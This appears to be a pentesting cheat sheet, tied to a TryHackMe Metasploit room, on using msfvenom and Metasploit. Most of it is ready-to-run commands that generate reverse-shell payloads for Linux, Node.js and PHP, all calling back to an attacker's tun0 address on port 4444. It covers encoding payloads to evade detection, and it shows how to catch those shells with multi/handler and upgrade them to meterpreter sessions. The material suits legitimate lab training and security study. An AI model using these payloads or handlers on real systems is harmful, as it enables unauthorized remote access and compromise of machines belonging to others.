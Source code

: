 # 🐍 msfvenom 🐍

[![metasploitexploitation](../../../_badges/thmp/metasploitexploitation.svg)](https://tryhackme.com/room/metasploitexploitation)

You can use msfvenom to generate all kinds of reverse shells.

<div class="row row-cols-md-2"><div>

* List payloads

```bash
$ msfvenom --list payloads
# payload opening a meterpreter - see metasploit below
$ msfvenom --list payloads | grep meterpreter
```

Selecting a payload can be a thorough process, as this choice is determined by the operating system, the firewall, the antivirus, the program available to execute the reverse shell (php, python...).

</div><div>

There are two categories of payloads: **single/inline**, and **staged** payloads. The main difference is that staged payloads are sent in two steps. First, a simple payload (called stager) is sent, which then request the rest of the payload. They are mainly used when there is a restriction on the size of the payload.

In Metasploit, the `_` is replaced with a `/` for staged payloads.

* `php/meterpreter_reverse_tcp`: inline/single
* `php/meterpreter/reverse_tcp`: staged
</div></div>

<hr class="sep-both">

## 📝 Common options 📝

<div class="row row-cols-md-2"><div>

The first parameter is `-p` which define the kind of reverse shell you want.

```bash
$ msfvenom -p cmd/unix/reverse_netcat [...]
```

You need to provide information that the machine will use to connect back: `LHOST` <small>(you IP address, or `tun0` if using a VPN)</small>, and `LPORT` <small>(you local port)</small>.

```bash
$ msfvenom [...] LHOST=tun0 LPORT=4444 [...]
```
</div><div>

You will want to either generate an executable (.exe, .elf...) or generate some raw code (php, js...). You can do that with `-f`.

```bash
$ msfvenom [...] -f raw
$ msfvenom [...] R # same for RAW
```

You can encode the payload, to make it harder to detect, or smaller/...

```bash
$ msfvenom [...] -e php/base64
```
</div></div>


<hr class="sep-both">

## 📌 Some payloads 📌

All examples are asking the target to connect back to `tun0` IP at the port `4444`.

<div class="row row-cols-md-2 mt-3"><div>

* **Linux**

```bash
# execute /bin/bash -p
$ msfvenom -p linux/x86/exec CMD="/bin/bash -p" -f elf -o shell.elf
# Generate a .elf opening a reverse shell (TCP)
$ msfvenom -p linux/x64/shell_reverse_tcp LHOST=tun0 LPORT=4444 -f elf -o shell.elf
# Output a command (RAW) opening a reverse shell with netcat
$ msfvenom -p cmd/unix/reverse_netcat LHOST=tun0 LPORT=4444 -f raw
```
</div><div>

* **Node.js**

```bash
# Generate a .js opening a reverse shell (TCP)
$ msfvenom -p nodejs/shell_reverse_tcp LHOST=tun0 LPORT=4444 -o shell.js
```

* **PHP**

```bash
# very instable shell, not recommended
$ msfvenom -p php/reverse_php LHOST=tun0 LPORT=4444 -o revshell.php
# meterpreter
$ msfvenom -p php/meterpreter/reverse_tcp LHOST=tun0 LPORT=4444 -o revshell.php
```
</div></div>

<hr class="sep-both">

## 🕸️ Catch reverse shells with Metasploit 🕸️

<div class="row row-cols-md-2"><div>

You can use the metasploit console to catch a reverse shell, which may or may not be a reverse shell. You can then upgrade it to a meterpreter shell, and use a lot of commands/... provided by the framework.

```bash
$ msfconsole -q
msf6 > use multi/handler
msf6 exploit('multi/handler') > setg LHOST tun0
msf6 exploit('multi/handler') > setg LPORT 4444
# for instance, to catch a php/meterpreter/reverse_tcp
msf6 exploit('multi/handler') > set PAYLOAD php/meterpreter/reverse_tcp
msf6 exploit('multi/handler') > run
# then wait for a connection
# then you meterpreter will pop
meterpreter> help # see what you can do
# refer to the metasploit course
```
</div><div>

If you are using this with a non-meterpreter bind/reverse shell

```bash
# run the exploit as a job (in the background)
msf6 exploit('multi/handler') > run -j
[XXX Session 1 XXX]
# upgrade session 1 to a meterpreter
msf6 exploit('multi/handler') > sessions -u 1
[XXX Session 2 XXX]
# move to the upgraded meterpreter
msf6 exploit('multi/handler') > sessions -i 2
meterpreter> help
```
</div></div>